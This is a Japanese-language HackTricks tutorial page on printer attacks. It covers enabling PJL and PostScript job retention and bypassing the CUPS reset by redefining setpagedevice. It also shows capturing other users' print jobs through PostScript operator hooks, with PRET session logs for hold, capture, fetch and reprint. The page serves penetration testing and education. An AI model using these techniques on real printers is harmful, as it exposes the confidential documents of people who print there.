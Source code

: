 <details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

他のHackTricksをサポートする方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>


# ジョブ保持

一部のプリンターは、ウェブサーバーからアクセス可能な保存されたプリントジョブを持っています。通常、ジョブ保持は特定のプリントジョブに対して明示的に活性化する必要があり、標準のPJLコマンドまたは独自のPostScriptコードを使用して行うことができます。その後、ジョブはメモリに保持され、コントロールパネルから再印刷することができます。

## PJL

以下に示すように、PJL HOLD変数を設定することで、現在のドキュメントに対して正当なジョブ保持を有効にすることができます：
```
@PJL SET HOLD=ON
[actual data to be printed follows]
```
ジョブ保留はメモリ内に保持され、プリンターのコントロールパネルから再印刷することができます。この機能は様々なプリンターでサポートされていますが、永続的なジョブ保持を設定できるのは一部のEpsonデバイスのみのようです。`@PJL DEFAULT HOLD=ON`を使用して設定します。

**この攻撃をテストする方法は？**

[**PRET** ](https://github.com/RUB-NDS/PRET)のpjlモードで`hold`コマンドを使用し、永続的なジョブ保持が設定できるかどうかを確認します。
```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```
## PostScript

PostScriptはモデルやベンダーに特有の類似の機能を提供します。HP LaserJet 4kシリーズや様々なKyoceraプリンターでは、以下のコマンドをPostScriptドキュメントの先頭に追加することでジョブ保持を有効にすることができます：
```
<< /Collate true /CollateDetails
<< /Hold 1 /Type 8 >> >> setpagedevice
```
```markdown
PostScriptジョブ保持を永続的に有効にすることは理論的に可能ですが、この設定はCUPSによって各印刷ジョブの開始時に`<< /Collate false >> setpagedevice`を使用して明示的にリセットされます。しかし、攻撃者はこの保護メカニズムを回避するために、`setpagedevice`オペレーターを再定義して全く効果がないようにすることができます。

**この攻撃をテストする方法は？**

psモードで[**PRET**](https://github.com/RUB-NDS/PRET)の`hold`コマンドを使用します：
```
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Job retention enabled.
```
# ジョブキャプチャ

上記のように、印刷ダイアログでジョブ保持をアクティブにすることは可能ですが、一般的ではありません。しかし、PostScriptを使用すると、現在の印刷ジョブを完全に制御でき、[startjob](./#postscript-ps)オペレーターを使用すると、サーバーループを抜け出し、将来のジョブにアクセスすることも可能です。この機能は、PostScriptがプリンタドライバとして使用されている場合、すべてのドキュメントをキャプチャする可能性があります。

## PostScript

任意のPostScriptオペレーターにフックする能力により、外部の印刷ジョブを操作し、アクセスすることが可能です。**プリンターに送信される実際のデータストリームを解析する**ために、PostScript言語のかなりクールな機能を利用できます：`currentfile`オペレーターを使用して、自身のプログラムコードをデータとして読み取ることです。この方法で、PostScriptインタープリターによって処理されるデータストリーム全体にアクセスし、プリンタデバイス上のファイルに読み取りとして保存することができます。プリンタがファイルシステムアクセスを提供していない場合、**キャプチャされたドキュメントはメモリ内に保存される**ことがあります。例えば、永続的なPostScript辞書内です。\
実際の問題は、**どのオペレーターをフックするべきか**を決定することです。なぜなら、このオペレーターがPostScriptインタープリターによって処理されるまで、データストリームにアクセスできないからです。攻撃者が印刷ジョブを最初からキャプチャしたい場合、**再定義されたオペレーターはPostScriptドキュメントに含まれる最初のオペレーターでなければなりません**。幸いなことに、CUPSで印刷されたすべてのドキュメントは`currentfile /ASCII85Decode filter /LZWDecode filter cvx exec`で始まる固定構造に圧縮されます。このような固定構造を前提として、攻撃者はドキュメントの最初からキャプチャし、その後ファイルを実行（つまり印刷）することができます。**CUPS以外の印刷システム**についても、この攻撃は可能であるべきですが、**オペレーターを適応させる必要があります**。この方法では、通常メディアサイズ、ユーザー名、ジョブ名を含むPostScriptヘッダーはキャプチャできません。なぜなら、実際のドキュメントの始まりで最初にフックするからです。もう一つの一般的な戦略は、プリンターがサポートしている場合（ほとんどのプリンターがそうです）、`BeginPage`システムパラメーターを設定することです。この脆弱性は、PostScript標準によって定義された言語構造が悪用されているだけで、印刷デバイスに何十年も存在している可能性があります。

[**PRET**](https://github.com/RUB-NDS/PRET)の`capture`コマンドをpsモードで使用します：
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.

printer:/> capture
Print job operations:  capture <operation>
capture start   - Record future print jobs.
capture stop    - End capturing print jobs.
capture list    - Show captured print jobs.
capture fetch   - Save captured print jobs.
capture print   - Reprint saved print jobs.
printer:/> capture start
Future print jobs will be captured in memory!
printer:/> exit
```
```
現在、任意のドキュメントを印刷します（印刷チャネルをブロックしないように、PRETが切断されていることを確認してください）。その後、キャプチャされたドキュメントをリスト表示、取得、または再印刷できます：
```
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> capture list
Free virtual memory: 16.6M | Limit to capture:  5.0M
date          size  user           jobname                 creator
───────────────────────────────────────────────────────────────────────────────
Jan 25 18:38  3.1M  -              -                       -
Jan 25 18:40  170K  -              -                       -
printer:/> capture fetch
Receiving capture/printer/690782792
3239748 bytes received.
Receiving capture/printer/690646210
174037 bytes received.
printer:/> capture print
printing...
printing...
2 jobs reprinted
printer:/> capture stop
Stopping job capture, deleting recorded jobs
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>
